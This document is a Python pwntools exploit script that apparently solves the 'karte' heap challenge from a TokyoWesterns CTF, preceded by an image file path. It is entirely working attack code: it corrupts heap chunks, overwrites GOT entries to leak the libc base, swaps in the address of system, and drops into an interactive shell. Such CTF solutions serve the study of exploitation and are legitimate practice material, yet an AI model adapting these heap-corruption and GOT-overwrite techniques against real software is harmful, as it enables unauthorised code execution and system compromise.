 ```python
    for i in range(7):
        idx = add(0x10, 'swing tql')
        delete(idx)

    idx1 = add(0x78, 'swing tql')
    idx2 = add(0x78, 'swing tql')
    delete(idx1)
    delete(idx2)
    modify(idx2, p64(0x6021A0)[ : 4])
    idx1 = add(0x78, 'swing tql')
    

    idx2 = add(0x78, p64(0) * 2 + p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21) + p64(0) * 4 + p64(0) + p64(0x21))
    rename(p64(0) + p64(0x21))
    idx3 = add(0x801, 'swing tql')
    delete(idx2)
    delete(idx3)

    rename(p64(0) + p64(0x21) + p64(0) + p64(0x602118 - 5 - 0x10))

    idx2 = add(0x10, 'swing tql')
    rename(p64(0) + p64(0x71))
    delete(idx2)
    rename(p64(0) + p64(0x71) + p64(0x602110))
    delete(idx1)

    idx1 = add(0x68, '/bin/sh;')
    # gdb.attach(p, 'b * 0x400B17\nc')
    idx2 = add(0x68, p64(0x0000000400000003) + p64(0) * 3 + p64(0x0000100000001) + p64(0x602018) + p64(0) + p64(0) + p64(0x0000200000001) + p64(0x602068) + p64(0x0000deadc0bebeef))

    modify(1, p64(0x400760)[ : 6])
    delete(2)
    libc_base = u64(p.recvline()[ : -1] + '\x00' * 2) - 0x97070
    log.info('libc base is : ' + hex(libc_base))
    system_addr = libc_base + 0x4f440

    modify(2, p64(system_addr)[ : 6])

    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil(' > ')
    p.sendline(str(0x6021b0))



    p.interactive()

if __name__ == '__main__':
    GameStart('karte.chal.ctf.westerns.tokyo', 10001, 0)
```
